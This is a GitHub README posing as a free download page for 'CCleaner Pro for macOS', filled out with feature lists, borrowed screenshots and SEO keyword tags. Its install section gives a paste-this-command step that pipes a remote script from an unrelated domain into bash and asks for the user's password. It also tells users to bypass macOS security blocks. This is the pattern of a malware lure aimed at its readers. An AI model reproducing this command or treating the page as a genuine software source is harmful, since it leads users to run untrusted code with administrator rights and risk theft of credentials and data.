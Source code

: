 <p align="center">
  <img src="https://camo.githubusercontent.com/1eeffd6101de69f8fcc28967f1010b58e3adcdaac250cce17c39c7801b045c64/68747470733a2f2f626c69747a68616e64656c32342e696d67626f6c742e64652f6d656469612f696d6167652f65342f62362f66312f43436c65616e65722d50726f66657373696f6e616c2d666f722d4d61632e706e67" alt="CCleaner Pro macOS Banner" />
</p>

<h1 align="center">CCleaner Pro for macOS</h1>

<p align="center">
  🧼 Clean up junk, speed up performance, and take control of your Mac with automation and privacy-focused tools.  
  <br><br>
  ✅ Works with macOS Sonoma, Ventura, Monterey  
  ✅ Optimized for Apple Silicon (M1/M2/M3)  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/201" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20CCLEANER%20PRO%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download CCleaner Pro for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://www.macworld.com/wp-content/uploads/2025/03/Ccleaner-review.jpg?quality=50&strip=all" alt="CCleaner Pro macOS UI Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is CCleaner Pro Mac?

**CCleaner Pro for macOS** is an advanced cleaning and optimization utility designed specifically for Mac users who want to maintain top system performance with minimal effort. Unlike basic free tools, the Pro edition brings automation, smart cleaning logic, and enhanced privacy features to keep your Mac running like new.

With modern macOS systems accumulating gigabytes of cache files, logs, duplicates, and digital clutter, CCleaner Pro Mac offers a powerful way to analyze and clean unnecessary system bloat. From browser junk to outdated system files, it helps you regain control over storage while ensuring your personal information stays private.

It’s particularly useful for creatives, developers, or professionals who rely on stable performance and want to avoid manual maintenance. CCleaner Pro also includes a powerful startup optimizer and real-time monitoring. Whether you're on Intel or Apple Silicon – it’s fully optimized for macOS Ventura, Monterey, Sonoma, and beyond.

---

## ✅ Why Choose CCleaner Pro Mac?

- 🧹 **Smart Cleaning** – Automatically detects and removes junk, temporary files, and system cache.  
- 💾 **Free Up Disk Space** – Reclaims gigabytes of storage by removing clutter.  
- 🔒 **Privacy Protection** – Clears browser history, cookies, and trackers.  
- 🧠 **Startup Manager** – Disables unnecessary startup apps to improve boot time.  
- 🧰 **App Uninstaller** – Cleanly removes apps and leftover files.  
- 📆 **Scheduled Cleaning** – Set it once and let it clean automatically.  
- 🔍 **Duplicate Finder** – Identifies and deletes duplicate files.  
- 🔐 **Secure File Deletion** – Military-grade overwrite of deleted files.

---

## 📸 More Screenshots

<p align="center">
  <img src="https://static-cdn.mackeeper.com/mk-blog-upload/images/new_602c1646c4.webp" alt="CCleaner Mac Junk Scan Screenshot" />
  <br><br>
  <img src="https://www.bleepstatic.com/download/screenshots/c/ccleaner-for-mac/analysis.jpg" alt="CCleaner Privacy Settings Mac Screenshot" />
</p>

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow the app manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-System+Cleaner+%26+Optimizer-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-Automated+Cleaning+%26+Privacy-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ CCleaner Pro – Keep Your Mac Clean

Thanks for using **CCleaner Pro for macOS**.  
Smart, fast, and automatic cleanup at your fingertips.

---

## 🧭 Usage Context

This utility is intended for personal cleanup and local performance tuning.  
All actions are fully local — no cloud sync, no telemetry.

Built for professionals and home users.  
Not affiliated with Apple or third-party system monitors.

---

## 🔍 Tags

```text
ccleaner pro mac download, ccleaner pro mac, ccleaner for macbook pro, ccleaner mac os x optimizer, macbook system cleaner app, remove junk files ccleaner mac, free up disk space macbook pro, privacy cleaner ccleaner mac, startup manager mac ccleaner pro, secure file deletion mac cleaner, ccleaner app remover mac utility, duplicate file finder mac ccleaner, apple silicon system cleaner tool, automatic mac cleanup scheduler, best mac optimization software
